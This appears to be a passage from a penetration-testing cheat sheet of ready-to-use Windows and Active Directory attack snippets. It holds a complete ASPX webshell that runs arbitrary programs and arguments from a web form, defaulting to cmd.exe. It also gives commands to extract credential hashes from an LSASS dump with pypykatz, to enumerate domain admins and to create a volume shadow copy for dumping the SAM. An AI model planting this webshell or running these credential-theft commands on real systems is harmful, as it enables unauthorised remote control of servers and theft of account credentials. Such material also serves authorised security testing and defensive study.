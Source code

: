 ```bash
export PATH=/var/lib/gems/3.1.0:$PATH
```
### Extract hashes from lsa.DMP:
```bash
pypykatz lsa minidump lsass.DMP
```
### Group Policy (GPO) extraction:
```powershell
gpresults /h out.html
```
### Aspx webshell:
```aspx
<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">      

Sub RunCmd(Src As Object, E As EventArgs)            
  Dim myProcess As New Process()            
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)            
  myProcessStartInfo.UseShellExecute = false            
  myProcessStartInfo.RedirectStandardOutput = true            
  myProcess.StartInfo = myProcessStartInfo            
  myProcessStartInfo.Arguments=xcmd.text            
  myProcess.Start()            

  Dim myStreamReader As StreamReader = myProcess.StandardOutput            
  Dim myString As String = myStreamReader.Readtoend()            
  myProcess.Close()            
  mystring=replace(mystring,"<","&lt;")            
  mystring=replace(mystring,">","&gt;")            
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"    
End Sub

</script>

<html>
<body>    
<form runat="server">        
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>        
<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>        
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>        
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>        
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>        
<p><asp:Label id="result" runat="server"></asp:Label>       
</form>
</body>
</html>
```
### Enumerate domain admins:
```powershell
(Get-ADGroupMember -Identity "Domain Admins" -Recursive | Get-ADUser | Select-Object -ExpandProperty SamAccountName)
```
### Dump SAM using vssadmin:
```powershell
vssadmin CREATE SHADOW /For=C:
```
